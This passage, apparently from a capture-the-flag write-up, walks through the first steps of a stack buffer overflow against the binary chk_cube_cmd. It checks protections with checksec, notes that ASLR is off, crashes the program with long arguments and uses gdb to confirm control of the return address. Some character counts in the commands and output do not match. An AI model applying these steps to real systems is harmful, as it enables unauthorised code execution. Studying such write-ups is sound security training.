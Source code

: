 ```
$ checksec --file=/usr/sbin/chk_cube_cmd

RELRO          STACK CANARY     NX          PIE     RPATH     RUNPATH
Partial RELRO  No canary found  NX enabled  No PIE  No RPATH  No RUNPATH

Symbols		FORTIFY	Fortified	Fortifiable  FILE
No Symbols  No  	0		    2	         /usr/sbin/chk_cube_cmd
```

The binary was compiled without gcc's implicit `stack-protector` feature. It does, however, have a *non-executable stack*, so a "classic" buffer overflow (with on-stack shell-code execution) won't work.

```
$ cat /proc/sys/kernel/randomize_va_space 
0
```

ASLR is disabled, so virtual addresses will *not* change between subsequent executions of `chk_cube_cmd`.

Our next move is to figure out whether we can crash the program by entering an exceedingly long argument:

```
$ chk_cube_cmd $(python2 -c 'print "A"*64')
cube_cmd: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Verified.

$ chk_cube_cmd $(python2 -c 'print "A"*69')
cube_cmd: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  chk_cube_cmd $(python2 -c 'print "A"*68')
```

The buffer is probably 64 characters long, and overflows if we exceed that limit. We can figure out where the vulnerable function (the one containing the overflowing on-stack buffer) keeps its return address by using `gdb`:

```
$ gdb -q --args chk_cube_cmd $(python2 -c 'print "A"*69')
Reading symbols from chk_cube_cmd...
(No debugging symbols found in chk_cube_cmd)
(gdb) r
Starting program: /usr/sbin/chk_cube_cmd AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
cube_cmd: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x00000004 in ?? ()
(gdb) q
...

$ gdb -q --args chk_cube_cmd $(python2 -c 'print "A"*80')
Reading symbols from chk_cube_cmd...
(No debugging symbols found in chk_cube_cmd)
(gdb) r
Starting program: /usr/sbin/chk_cube_cmd AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
cube_cmd: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) q
...
```
